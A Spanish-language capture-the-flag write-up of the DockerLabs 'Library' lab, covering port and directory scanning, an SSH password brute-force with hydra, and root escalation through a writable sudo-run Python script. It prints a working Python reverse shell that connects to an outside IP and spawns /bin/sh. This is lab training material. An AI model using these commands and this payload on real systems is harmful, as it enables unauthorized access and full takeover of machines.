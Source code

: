 # Write-up: Library

**Sitio: DockerLabs**  
**Dificultad: Fácil**    
**Fecha: 14/07/2025**  
**Aprendizaje:**  
  
    • Refuerzo en comandos para escaneos.  
    • Refuerzo en creación y adaptación de script para explotación.  

---

## 1 - Escaneo del objetivo:

 > sudo nmap -p- -sSV -O --open --min-rate 5000 -vvv -n -Pn 172.17.0.2

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
```
**OS**: `Linux`

---

## 2 - Escaneo de servicios específicos y reconocimiento:

> • sudo nmap -p 22,88 -sC 172.17.0.2:

```
PORT   STATE  SERVICE
22/tcp open   ssh
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
88/tcp closed kerberos-sec
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

> • gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -q -b 404,403

```
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
```

**/index.php** => tira `JIFGHDS87GYDFIGD`

> • hydra -L /usr/share/wordlists/rockyou.txt -p JIFGHDS87GYDFIGD -V -f ssh://172.17.0.2

`-f` => para que corte cuando encuentre la coincidencia.

`user: carlos`

---

## 3 - Una vez dentro, se listaron binarios con permisos elevados:

> • sudo -l

`(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py`

---

## 4 - Analizo el script:

```
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

---

## 5 - Veo que el script no tiene nada relevante para explotar de forma SENCILLA y RÁPIDA por lo que opto:

> • ls -la => veo mis permisos

```
total 32
drwxr-x--- 1 carlos carlos 4096 Jul 14 03:14 . => tengo permiso de escritura/lectura/ejecución en mi directorio actual.
drwxr-xr-x 1 root   root   4096 May  7  2024 ..
-rw-r--r-- 1 carlos carlos  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 carlos carlos 3771 Mar 31  2024 .bashrc
drwx------ 2 carlos carlos 4096 Jul 14 02:57 .cache
drwxrwxr-x 3 carlos carlos 4096 Jul 14 03:14 .local
-rw-r--r-- 1 carlos carlos  807 Mar 31  2024 .profile
```

> • Me creo un script con el mismo nombre que el script que se ejecuta en el directorio opt: script.py

a - `nano script.py`

b - De payload, al estar siendo apuntado por el binario de python3, usando la página `tex2e.github.io` me creo la reverse shell y solo agrego allí dentro el payload que será ejecutado por el binario de python3.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.146.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
c - `mv script.py /opt` => me pide confirmación y se la doy.

d - En otra terminal pongo el listener a escuchar => `nc -lvnp 4444`

e - `sudo /usr/bin/python3 /opt/script.py`

f - Me dirijo a la otra terminal con el listener escuchando.

> g - whoami = `root`
